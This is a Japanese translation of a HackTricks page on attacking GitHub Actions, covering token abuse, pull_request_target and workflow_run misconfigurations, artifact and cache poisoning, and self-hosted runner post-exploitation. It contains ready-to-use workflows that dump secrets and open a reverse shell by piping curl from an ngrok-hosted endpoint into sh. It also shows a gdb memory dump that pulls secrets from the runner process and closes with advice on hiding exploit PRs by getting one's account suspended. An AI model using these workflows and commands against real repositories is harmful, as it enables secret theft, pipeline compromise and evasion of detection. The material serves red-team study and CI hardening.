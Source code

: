 # Github Actionsの悪用

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**PEASSファミリー**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## 基本情報

このページには以下が含まれます:

* 攻撃者がGithub Actionにアクセスした場合の**全ての影響の要約**
* Actionにアクセスするための異なる方法:
* Actionを作成するための**権限**を持っている
* **プルリクエスト**関連のトリガーを悪用する
* **その他の外部アクセス**技術を悪用する
* 既に侵害されたリポジトリからの**ピボット**
* 最後に、内部からActionを悪用するための**悪用後の技術**についてのセクション（上記の影響を引き起こす）

## 影響の要約

[**Github Actionsについての基本情報**](../basic-github-information.md#github-actions)についての導入を参照してください。

もし**任意のGithub actions/コードを実行**することができる場合、以下のことが可能になるかもしれません:

* そのリポジトリ/組織から**シークレット**を**盗む**。
* もし注入のみが可能な場合、既にワークフローに存在するものを盗むことができます。
* AWSやGCPなどの他のプラットフォームへのアクセスに**リポジトリの権限**を悪用する。
* **カスタムワーカーでコードを実行**する（カスタムワーカーが使用されている場合）し、そこからピボットを試みる。
* リポジトリの**コードを上書き**する。
* これは`GITHUB_TOKEN`（もしあれば）の権限に依存します。
* **デプロイメント**やその他の**アーティファクト**を侵害する。
* もしコードが何かをデプロイまたは保存している場合、それを変更してさらなるアクセスを得ることができるかもしれません。

## GITHUB\_TOKEN

この"**シークレット**"（`${{ secrets.GITHUB_TOKEN }}`と`${{ github.token }}`から取得）は、管理者がこのオプションを有効にしたときに与えられます:

<figure><img src="../../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

このトークンは**Githubアプリケーションが使用する**ものと同じで、同じエンドポイントにアクセスできます: [https://docs.github.com/en/rest/overview/endpoints-available-for-github-apps](https://docs.github.com/en/rest/overview/endpoints-available-for-github-apps)

{% hint style="warning" %}
Githubは、`GITHUB_TOKEN`を使用してリポジトリ間でアクセスを**許可するフロー**をリリースする予定です。これにより、リポジトリが他の内部リポジトリにアクセスできるようになります。[**フロー**](https://github.com/github/roadmap/issues/74)
{% endhint %}

このトークンの可能な**権限**はこちらで確認できます: [https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-for-the-github\_token](https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-for-the-github\_token)

このトークンは**ジョブが完了した後に期限切れ**になることに注意してください。\
これらのトークンは次のように見えます: `ghs_veaxARUji7EXszBMbhkr4Nz2dYz0sqkeiur7`

このトークンでできる興味深いこと:

{% tabs %}
{% tab title="PRをマージする" %}
```bash
# Merge PR
curl -X PUT \
https://api.github.com/repos/<org_name>/<repo_name>/pulls/<pr_number>/merge \
-H "Accept: application/vnd.github.v3+json" \
--header "authorization: Bearer $GITHUB_TOKEN" \
--header 'content-type: application/json' \
-d '{"commit_title":"commit_title"}'
```
{% endtab %}

{% tab title="PRを承認" %}
```bash
# Approve a PR
curl -X POST \
https://api.github.com/repos/<org_name>/<repo_name>/pulls/<pr_number>/reviews \
-H "Accept: application/vnd.github.v3+json" \
--header "authorization: Bearer $GITHUB_TOKEN" \
--header 'content-type: application/json' \
-d '{"event":"APPROVE"}'
```
{% endtab %}

{% tab title="PR を作成" %}
```bash
# Create a PR
curl -X POST \
-H "Accept: application/vnd.github.v3+json" \
--header "authorization: Bearer $GITHUB_TOKEN" \
--header 'content-type: application/json' \
https://api.github.com/repos/<org_name>/<repo_name>/pulls \
-d '{"head":"<branch_name>","base":"master", "title":"title"}'
```
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
複数の場合において、**Github Actions envsやsecrets内にgithubユーザートークンが見つかる**ことがあります。これらのトークンは、リポジトリや組織に対する権限を増やす可能性があります。
{% endhint %}

<details>

<summary>Github Actionの出力でsecretsをリストする</summary>
```yaml
name: list_env
on:
workflow_dispatch: # Launch manually
pull_request: #Run it when a PR is created to a branch
branches:
- '**'
push: # Run it when a push is made to a branch
branches:
- '**'
jobs:
List_env:
runs-on: ubuntu-latest
steps:
- name: List Env
# Need to base64 encode or github will change the secret value for "***"
run: sh -c 'env | grep "secret_" | base64 -w0'
env:
secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
<details>

<summary>シークレットを使ったリバースシェルの取得</summary>
```yaml
name: revshell
on:
workflow_dispatch: # Launch manually
pull_request: #Run it when a PR is created to a branch
branches:
- '**'
push: # Run it when a push is made to a branch
branches:
- '**'
jobs:
create_pull_request:
runs-on: ubuntu-latest
steps:
- name: Get Rev Shell
run: sh -c 'curl https://reverse-shell.sh/2.tcp.ngrok.io:15217 | sh'
env:
secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
</details>

他のユーザーのリポジトリで与えられたGithubトークンの権限を確認するには、アクションの**ログをチェック**することが可能です：

<figure><img src="../../../.gitbook/assets/image (97).png" alt="" width="269"><figcaption></figcaption></figure>

## 許可された実行

{% hint style="info" %}
これはGithubアクションを侵害する最も簡単な方法であり、このケースでは**組織内に新しいリポジトリを作成する**アクセス権、または**リポジトリに対する書き込み権限**を持っていることを想定しています。

このシナリオにいる場合は、[アクション内部からのポストエクスプロイテーション技術](./#post-exploitation-techniques-from-inside-an-action)を確認するだけで済みます。
{% endhint %}

### リポジトリ作成からの実行

組織のメンバーが**新しいリポジトリを作成**でき、Githubアクションを実行できる場合、**新しいリポジトリを作成して、組織レベルで設定されているシークレットを盗む**ことができます。

### 新しいブランチからの実行

既にGithubアクションが設定されているリポジトリに**新しいブランチを作成**できる場合、それを**変更**し、コンテンツを**アップロード**して、そのアクションを新しいブランチから**実行**することができます。この方法で、リポジトリと組織レベルのシークレットを**抽出**することができます（ただし、それらがどのように呼ばれているかを知る必要があります）。

変更されたアクションを**手動で**実行するか、**PRが作成されたとき**、または**コードがプッシュされたとき**に実行できます（どれだけ騒がしくしたいかによります）：
```yaml
on:
workflow_dispatch: # Launch manually
pull_request: #Run it when a PR is created to a branch
branches:
- master
push: # Run it when a push is made to a branch
branches:
- current_branch_name

# Use '**' instead of a branh name to trigger the action in all the cranches
```
***

## Forked Execution

{% hint style="info" %}
異なるトリガーが攻撃者に**他のリポジトリのGithubアクションを実行させる**可能性があります。これらのトリガー可能なアクションが不適切に設定されている場合、攻撃者はそれらを侵害することができるかもしれません。
{% endhint %}

### `pull_request`

ワークフロートリガー**`pull_request`**は、プルリクエストが受信されるたびにワークフローを実行しますが、例外があります：デフォルトでは、**初めて** **協力する**場合、いくつかの**メンテナー**がワークフローの**実行**を**承認**する必要があります：

<figure><img src="../../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
**初回**の貢献者に対する**デフォルトの制限**であるため、有効なバグ/タイポを**修正して貢献した後**、新しい`pull_request`権限を悪用する**他のPRを送る**ことができます。

**これをテストしましたが、機能しませんでした**： ~~プロジェクトに貢献してアカウントを削除した人の名前でアカウントを作成するという別のオプションもあります。~~
{% endhint %}

さらに、デフォルトでは対象リポジトリへの**書き込み権限**と**シークレットアクセス**を防ぐようになっています。[**ドキュメント**](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#workflows-in-forked-repositories)で言及されています：

> `GITHUB_TOKEN`を除き、**シークレットはフォークされたリポジトリからトリガーされたワークフローには渡されません**。**`GITHUB_TOKEN`はフォークされたリポジトリのプルリクエストで読み取り専用の権限を持っています**。

攻撃者はGithubアクションの定義を変更して任意のことを実行し、任意のアクションを追加することができます。しかし、前述の制限のため、シークレットを盗んだりリポジトリを上書きすることはできません。

{% hint style="danger" %}
**はい、攻撃者がPRでトリガーされるgithubアクションを変更した場合、使用されるのは元のリポジトリのものではなく、彼のGithubアクションになります！**
{% endhint %}

攻撃者は実行されるコードも制御しているため、`GITHUB_TOKEN`にシークレットや書き込み権限がなくても、例えば**悪意のあるアーティファクトをアップロードする**ことができます。

### **`pull_request_target`**

ワークフロートリガー**`pull_request_target`**は、対象リポジトリへの**書き込み権限**と**シークレットへのアクセス**を持っています（そして、許可を求めません）。

ワークフロートリガー**`pull_request_target`**は**ベースのコンテキストで実行され**、PRによって与えられたコンテキストではありません（**信頼できないコードを実行しないため**）。`pull_request_target`についての詳細は[**ドキュメントを確認してください**](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#pull\_request\_target)。\
さらに、この特定の危険な使用についての詳細は、この[**githubブログ投稿**](https://securitylab.github.com/research/github-actions-preventing-pwn-requests/)を確認してください。

**実行されるワークフロー**が**ベース**で定義されたものであり、PR内のものではないため、**`pull_request_target`**の使用は**安全**だと思われるかもしれませんが、それが**安全でない場合がいくつかあります**。

そして、このワークフローは**シークレットへのアクセス**を持っています。

### `workflow_run`

[**workflow\_run**](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#workflow\_run)トリガーは、`completed`、`requested`、または`in_progress`のときに、別のワークフローからワークフローを実行することを可能にします。

この例では、別の"Run Tests"ワークフローが完了した後に実行されるようにワークフローが設定されています：
```yaml
on:
workflow_run:
workflows: [Run Tests]
types:
- completed
```
また、ドキュメントによると：`workflow_run`イベントによって開始されたワークフローは、**前のワークフローがそうでなかったとしても、シークレットと書き込みトークンにアクセスできる**とのことです。

この種のワークフローは、**`pull_request`**または**`pull_request_target`**を通じて外部ユーザーによって**トリガー**される**ワークフロー**に**依存**している場合、攻撃を受ける可能性があります。いくつかの脆弱な例は[**このブログで見つけることができます**](https://www.legitsecurity.com/blog/github-privilege-escalation-vulnerability)**。**最初の例は、攻撃者のコードをダウンロードする**`workflow_run`**トリガーされたワークフローです：`${{ github.event.pull_request.head.sha }}`\
2番目の例は、**信頼されていない**コードから**アーティファクト**を**`workflow_run`**ワークフローに**渡し**、このアーティファクトの内容を**RCEに対して脆弱**にする方法で使用することです。

### `workflow_call`

TODO

TODO: Check if when executed from a pull\_request the used/downloaded code if the one from the origin or from the forked PR

## Forked Executionの悪用

外部の攻撃者がgithubワークフローを実行させる方法をすべて述べましたが、今度は、悪い設定がされている場合、これらの実行がどのように悪用されるかを見てみましょう：

### 信頼されていないcheckout実行

**`pull_request`**の場合、ワークフローは**PRのコンテキスト**で実行されます（つまり、**悪意のあるPRのコード**を実行しますが）、誰かが最初に**承認する必要があり**、いくつかの[制限](./#pull\_request)を持って実行されます。

**`pull_request_target`または`workflow_run`**を使用するワークフローの場合、**`pull_request_target`または`pull_request`**からトリガーできるワークフローに依存している場合、元のリポジトリのコードが実行されるため、**攻撃者は実行されるコードを制御できません**。

{% hint style="danger" %}
ただし、**アクション**に**明示的なPRチェックアウト**があり、**PRからコードを取得**する場合（ベースからではない）、攻撃者が制御するコードを使用します。例えば（PRコードがダウンロードされる12行目をチェック）：
{% endhint %}

<pre class="language-yaml"><code class="lang-yaml"># INSECURE. 例としてのみ提供されます。
on:
pull_request_target

jobs:
build:
name: Build and test
runs-on: ubuntu-latest
steps:
<strong>    - uses: actions/checkout@v2
</strong><strong>      with:
</strong><strong>        ref: ${{ github.event.pull_request.head.sha }}
</strong>
- uses: actions/setup-node@v1
- run: |
npm install
npm build

- uses: completely/fakeaction@v2
with:
arg1: ${{ secrets.supersecret }}

- uses: fakerepo/comment-on-pr@v1
with:
message: |
Thank you!
</code></pre>

潜在的に**信頼されていないコードは、`npm install`または`npm build`の間に実行されています**。ビルドスクリプトと参照されている**パッケージはPRの著者によって制御されています**。

{% hint style="warning" %}
vulnerable actionsを検索するためのgithub dorkは：`event.pull_request pull_request_target extension:yml`ですが、アクションが不安全に設定されていても、ジョブが安全に実行されるように設定するさまざまな方法があります（PRを生成するアクターに関する条件付けを使用するなど）。
{% endhint %}

### Context Script Injections <a href="#understanding-the-risk-of-script-injections" id="understanding-the-risk-of-script-injections"></a>

PRを作成する**ユーザー**によって値が**制御**されている特定の[**githubコンテキスト**](https://docs.github.com/en/actions/reference/context-and-expression-syntax-for-github-actions#github-context)があることに注意してください。githubアクションがその**データを使用して何かを実行している**場合、**任意のコード実行**につながる可能性があります：

{% content-ref url="gh-actions-context-script-injections.md" %}
[gh-actions-context-script-injections.md](gh-actions-context-script-injections.md)
{% endcontent-ref %}

### **GITHUB\_ENV Script Injection** <a href="#what-is-usdgithub_env" id="what-is-usdgithub_env"></a>

ドキュメントから：ワークフロージョブの後続のステップで**環境変数を利用可能にする**ためには、環境変数を定義または更新し、これを**`GITHUB_ENV`**環境ファイルに書き込むことができます。

攻撃者がこの**env**変数内に任意の値を**注入**できる場合、**LD\_PRELOAD**や**NODE\_OPTIONS**など、後続のステップでコードを実行する環境変数を注入する可能性があります。

例えば（[**これ**](https://www.legitsecurity.com/blog/github-privilege-escalation-vulnerability-0)と[**これ**](https://www.legitsecurity.com/blog/-how-we-found-another-github-action-environment-injection-vulnerability-in-a-google-project)）、アップロードされたアーティファクトを信頼してその内容を**`GITHUB_ENV`**環境変数に格納するワークフローを想像してください。攻撃者は次のようなものをアップロードしてそれを危険にさらすことができます：

<figure><img src="../../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

### 脆弱なサードパーティGithubアクション

#### [dawidd6/action-download-artifact](https://github.com/dawidd6/action-download-artifact)

[**このブログ投稿**](https://www.legitsecurity.com/blog/github-actions-that-open-the-door-to-cicd-pipeline-attacks)で述べられているように、このGithubアクションは異なるワークフローやリポジトリからアーティファクトにアクセスすることを可能にします。

問題は、**`path`**パラメータが設定されていない場合、アーティファクトは現在のディレクトリに抽出され、後で使用または実行されるファイルを上書きする可能性があることです。したがって、アーティファクトが脆弱である場合、攻撃者はアーティファクトを信頼する他のワークフローを危険にさらすことができます。

脆弱なワークフローの例：
```yaml
on:
workflow_run:
workflows: ["some workflow"]
types:
- completed

jobs:
success:
runs-on: ubuntu-latest
steps:
- uses: actions/checkout@v2
- name: download artifact
uses: dawidd6/action-download-artifact
with:
workflow: ${{ github.event.workflow_run.workflow_id }}
name: artifact
- run: python ./script.py
with:
name: artifact
path: ./script.py
```
このワークフローを使って攻撃することができます：
```yaml
name: "some workflow"
on: pull_request

jobs:
upload:
runs-on: ubuntu-latest
steps:
- run: echo "print('exploited')" > ./script.py
- uses actions/upload-artifact@v2
with:
name: artifact
path: ./script.py
```
***

## その他の外部アクセス

### 削除された名前空間リポジトリのハイジャック

アカウントが名前を変更すると、しばらくすると別のユーザーがその名前でアカウントを登録できるようになります。リポジトリが**名前の変更前に100スター未満だった場合**、Githubは同じ名前で**同じ名前のリポジトリ**を作成する新しい登録ユーザーを許可します。

{% hint style="danger" %}
したがって、アクションが存在しないアカウントのリポジトリを使用している場合、攻撃者がそのアカウントを作成し、アクションを危険にさらす可能性があります。
{% endhint %}

他のリポジトリが**このユーザーのリポジトリからの依存関係**を使用している場合、攻撃者はそれらをハイジャックすることができます。より完全な説明はこちらです: [https://blog.nietaanraken.nl/posts/gitub-popular-repository-namespace-retirement-bypass/](https://blog.nietaanraken.nl/posts/gitub-popular-repository-namespace-retirement-bypass/)

***

## リポジトリのピボット

{% hint style="info" %}
このセクションでは、最初のリポジトリに何らかのアクセスがあると仮定して（前のセクションを確認してください）、**一つのリポジトリから別のリポジトリにピボットする**技術について話します。
{% endhint %}

### キャッシュポイズニング

**同じブランチ内のワークフロー実行間でキャッシュが維持**されます。つまり、攻撃者が**パッケージを侵害**し、その後キャッシュに保存され、**より権限の高い**ワークフローによって**ダウンロード**され実行される場合、そのワークフローも侵害することができます。

{% content-ref url="gh-actions-cache-poisoning.md" %}
[gh-actions-cache-poisoning.md](gh-actions-cache-poisoning.md)
{% endcontent-ref %}

### アーティファクトポイズニング

ワークフローは**他のワークフローやリポジトリのアーティファクトを使用する**ことがあります。攻撃者が**アーティファクトをアップロードするGithubアクションを侵害**し、後で別のワークフローで使用される場合、**他のワークフローを侵害**することができます：

{% content-ref url="gh-actions-artifact-poisoning.md" %}
[gh-actions-artifact-poisoning.md](gh-actions-artifact-poisoning.md)
{% endcontent-ref %}

***

## アクションからのポストエクスプロイト

### OIDC経由でAWSとGCPにアクセスする

以下のページを確認してください：

{% content-ref url="../../../pentesting-cloud/aws-security/aws-basic-information/aws-federation-abuse.md" %}
[aws-federation-abuse.md](../../../pentesting-cloud/aws-security/aws-basic-information/aws-federation-abuse.md)
{% endcontent-ref %}

{% content-ref url="../../../pentesting-cloud/gcp-security/gcp-basic-information/gcp-federation-abuse.md" %}
[gcp-federation-abuse.md](../../../pentesting-cloud/gcp-security/gcp-basic-information/gcp-federation-abuse.md)
{% endcontent-ref %}

### シークレットへのアクセス <a href="#accessing-secrets" id="accessing-secrets"></a>

スクリプトに内容を注入する場合、シークレットにアクセスする方法を知っておくと便利です：

* シークレットやトークンが**環境変数**に設定されている場合、環境を通じて**`printenv`**を使用して直接アクセスできます。

<details>

<summary>Githubアクションの出力でシークレットをリストする</summary>
```yaml
name: list_env
on:
workflow_dispatch: # Launch manually
pull_request: #Run it when a PR is created to a branch
branches:
- '**'
push: # Run it when a push is made to a branch
branches:
- '**'
jobs:
List_env:
runs-on: ubuntu-latest
steps:
- name: List Env
# Need to base64 encode or github will change the secret value for "***"
run: sh -c 'env | grep "secret_" | base64 -w0'
env:
secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}

secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
</details>

<details>

<summary>秘密を使ってリバースシェルを取得する</summary>
```yaml
name: revshell
on:
workflow_dispatch: # Launch manually
pull_request: #Run it when a PR is created to a branch
branches:
- '**'
push: # Run it when a push is made to a branch
branches:
- '**'
jobs:
create_pull_request:
runs-on: ubuntu-latest
steps:
- name: Get Rev Shell
run: sh -c 'curl https://reverse-shell.sh/2.tcp.ngrok.io:15217 | sh'
env:
secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
</details>

* シークレットが**直接式に使用される**場合、生成されたシェルスクリプトは**ディスク上に保存され**、アクセス可能です。
* ```bash
cat /home/runner/work/_temp/*
```
* JavaScriptアクションでは、シークレットは環境変数を通じて送信されます
* ```bash
ps axe | grep node
```
*   **カスタムアクション**の場合、プログラムが**引数**から取得したシークレットをどのように使用しているかによって、リスクは異なる場合があります：

```yaml
uses: fakeaction/publish@v3
with:
key: ${{ secrets.PUBLISH_KEY }}
```

### セルフホストランナーの悪用

**Github Actionsが非Githubインフラストラクチャで実行されている**ことを見つける方法は、Github Actionの設定yamlで**`runs-on: self-hosted`**を検索することです。

**セルフホスト**ランナーは、**より機密性の高い情報**、他の**ネットワークシステム**（ネットワーク内の脆弱なエンドポイント？メタデータサービス？）にアクセスできる可能性があります。また、隔離され破壊されていても、**複数のアクションが同時に実行される**ことがあり、悪意のあるアクションが他のアクションのシークレットを**盗む**可能性があります。

セルフホストランナーでは、**_**Runner.Listener**_**プロセスから**シークレットを取得することも可能です。これには、ワークフローの任意のステップでのすべてのシークレットが含まれており、そのメモリをダンプすることで取得できます：

{% code overflow="wrap" %}
```bash
sudo apt-get install -y gdb
sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{ print $1 }')"
```
{% endcode %}

詳細については、[**この投稿をご覧ください**](https://karimrahal.com/2023/01/05/github-actions-leaking-secrets/)。

### Github Dockerイメージレジストリ

Githubアクションを作成して、**DockerイメージをGithub内にビルドして保存する**ことが可能です。\
以下の展開可能な例を参照してください：

<details>

<summary>Githubアクション ビルド &#x26; プッシュ Dockerイメージ</summary>
```yaml
[...]

- name: Set up Docker Buildx
uses: docker/setup-buildx-action@v1

- name: Login to GitHub Container Registry
uses: docker/login-action@v1
with:
registry: ghcr.io
username: ${{ github.repository_owner }}
password: ${{ secrets.ACTIONS_TOKEN }}

- name: Add Github Token to Dockerfile to be able to download code
run: |
sed -i -e 's/TOKEN=##VALUE##/TOKEN=${{ secrets.ACTIONS_TOKEN }}/g' Dockerfile

- name: Build and push
uses: docker/build-push-action@v2
with:
context: .
push: true
tags: |
ghcr.io/${{ github.repository_owner }}/${{ github.event.repository.name }}:latest
ghcr.io/${{ github.repository_owner }}/${{ github.event.repository.name }}:${{ env.GITHUB_NEWXREF }}-${{ github.sha }}

[...]
```
</details>

前のコードで見られたように、Githubレジストリは**`ghcr.io`**でホストされています。

リポジトリに対する読み取り権限を持つユーザーは、個人アクセストークンを使用してDockerイメージをダウンロードできます：
```bash
echo $gh_token | docker login ghcr.io -u <username> --password-stdin
docker pull ghcr.io/<org-name>/<repo_name>:<tag>
```
```markdown
次に、ユーザーは**Dockerイメージレイヤーに漏洩したシークレットを検索**できます：

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/docker-forensics" %}

### Github Actionsログにおける機密情報

**Github**がアクションログ内の**シークレット値を検出し、表示を避ける**ようにしていても、アクションの実行中に生成された**他の機密データ**は隠されません。例えば、シークレット値で署名されたJWTは、[特に設定されていない限り](https://github.com/actions/toolkit/tree/main/packages/core#setting-a-secret)隠されません。

## 足跡を隠す

([**こちら**](https://divyanshu-mehta.gitbook.io/researchs/hijacking-cloud-ci-cd-systems-for-fun-and-profit)からのテクニック) まず、Githubで公開されたPRは一般に公開されており、対象のGitHubアカウントにも明確に表示されます。デフォルトでは、**インターネット上からPRを削除することはできません**が、ひねりがあります。**停止された**Githubアカウントについては、そのアカウントの**すべてのPRが自動的に削除**され、インターネットから削除されます。したがって、活動を隠すためには、**GitHubアカウントを停止させるか、アカウントにフラグを立てる**必要があります。これにより、GitHub上の**すべての活動がインターネット上から隠されます**（基本的にはあなたのエクスプロイトPRをすべて削除します）。

GitHubの組織はアカウントをGitHubに報告することに非常に積極的です。問題に「いくつかのもの」を共有するだけで、彼らは12時間以内にあなたのアカウントが停止されることを確実にします :p そして、あなたはそれを持っています、github上であなたのエクスプロイトを見えなくしました。

{% hint style="warning" %}
組織がターゲットにされたことを把握する唯一の方法は、GitHub UIからPRが削除されているため、SIEMからGitHubログをチェックすることです。
{% endhint %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでAWSハッキングを学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>こちら</strong></a><strong>をクリック！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
```

